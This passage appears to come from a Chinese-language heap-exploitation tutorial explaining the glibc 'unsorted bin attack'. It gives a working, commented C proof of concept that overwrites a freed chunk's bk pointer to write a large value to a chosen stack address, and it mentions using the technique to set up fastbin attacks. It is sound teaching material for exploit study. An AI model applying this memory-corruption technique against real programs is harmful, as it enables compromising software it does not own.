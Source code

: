 ```
bck = victim-&gt;bk
```

因此我们只需要控制bk指针就可以让bck位置可控，而我们的bck-&gt;fd也就可控了，此时就可以往任意地址写一个东西,但是写的东西不归我们控制,因此只能打辅助2333

### <a class="reference-link" name="%E6%BA%90%E4%BB%A3%E7%A0%81"></a>源代码

这个代码真心少啊我说2333,同样的,我加了一点注释删了些东西

作者的话的大概意思:

本demo使用unsorted bin attack技巧将一个很大的无符号long型值写进了栈里

在实际中,unsorted bin attack常常用于为其他的攻击做辅助,比如覆写global_max_fast来为fastbin attack做辅助

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;

int main()`{`

        unsigned long stack_var=0;
        //stack_var就是我们的攻击目标
        fprintf(stderr, "Let's first look at the target we want to rewrite on stack:n");
        fprintf(stderr, "%p: %ldnn", &amp;stack_var, stack_var);

        unsigned long *p=malloc(400);

        // 我们先在堆上分配一个正常的chunk
        fprintf(stderr, "Now, we allocate first normal chunk on the heap at: %pn",p);
        //并且分配另一个正常的chunk来避免free第一个chunk时该chunk与top chunk合并
        fprintf(stderr, "And allocate another normal chunk in order to avoid consolidating the top chunk with"
           "the first one during the free()nn");
        malloc(500);

        free(p);
        //现在我们释放的p将会被放入unsorted bin中,并且其bk指向p[1]
        fprintf(stderr, "We free the first chunk now and it will be inserted in the unsorted bin with its bk pointer "
                   "point to %pn",(void*)p[1]);

        //------------VULNERABILITY-----------

        p[1]=(unsigned long)(&amp;stack_var-2);
        //现在我们模拟有一个漏洞让我们可以覆写victim-&gt;bk指针
        fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim-&gt;bk pointern");
        fprintf(stderr, "And we write it with the target address-16 (in 32-bits machine, it should be target address-8):%pnn",(void*)p[1]);

        //------------------------------------

        malloc(400);
        //现在我们再分配一次来取回我们刚刚free掉的chunk,此时攻击目标已经被改写了
        fprintf(stderr, "Let's malloc again to get the chunk we just free. During this time, the target should have already been "
                   "rewritten:n");
        fprintf(stderr, "%p: %pn", &amp;stack_var, (void*)stack_var);
`}`
```

